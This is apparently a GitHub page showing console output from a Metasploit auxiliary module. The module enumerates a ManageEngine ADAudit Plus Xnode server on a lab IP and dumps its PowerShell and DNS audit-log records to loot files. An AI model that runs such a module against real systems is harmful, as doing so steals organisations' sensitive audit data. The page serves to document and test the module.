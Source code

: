 ```

[*] 192.168.1.25:29118 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.1.25:29118 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.25:29118 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.25:29118 - Target is running Xnode version: "DataEngine-XNode 1.1.0 (1100)".
[*] 192.168.1.25:29118 - Obtained Xnode installation path: "C:\Program Files\ManageEngine\ADAudit Plus\apps\dataengine-xnode".
[*] 192.168.1.25:29118 - Data repository AdapFileAuditLog is empty.
[+] 192.168.1.25:29118 - Data repository AdapPowershellAuditLog contains 261 records with ID numbers between 1.0 and 303.0.
[*] 192.168.1.25:29118 - Data repository AdapSysMonAuditLog is empty.
[+] 192.168.1.25:29118 - Data repository AdapDNSAuditLog contains 722 records with ID numbers between 1.0 and 926.0.
[*] 192.168.1.25:29118 - Data repository AdapADReplicationAuditLog is empty.
[*] 192.168.1.25:29118 - Attempting to request 261 records for data repository AdapPowershellAuditLog between IDs 1 and 303. This could take a while...
[*] 192.168.1.25:29118 - Processed 25 queries (max 10 records per query) so far. The last queried record ID was 250. The max ID is 303...
[+] 192.168.1.25:29118 - Saving 261 records from the AdapPowershellAuditLog data repository to /root/.msf4/loot/20220610073738_default_192.168.1.25_xnode_powershell_099421.json
[*] 192.168.1.25:29118 - Attempting to request 722 records for data repository AdapDNSAuditLog between IDs 1 and 926. This could take a while...
[*] 192.168.1.25:29118 - Processed 25 queries (max 10 records per query) so far. The last queried record ID was 250. The max ID is 926...
[*] 192.168.1.25:29118 - Processed 50 queries (max 10 records per query) so far. The last queried record ID was 500. The max ID is 926...
[*] 192.168.1.25:29118 - Processed 75 queries (max 10 records per query) so far. The last queried record ID was 750. The max ID is 926...
[+] 192.168.1.25:29118 - Saving 722 records from the AdapDNSAuditLog data repository to /root/.msf4/loot/20220610073754_default_192.168.1.25_xnode_dnsaudit_775121.json
[*] Auxiliary module execution completed
msf auxiliary(gather/manageengine_adaudit_plus_xnode_enum) >
```
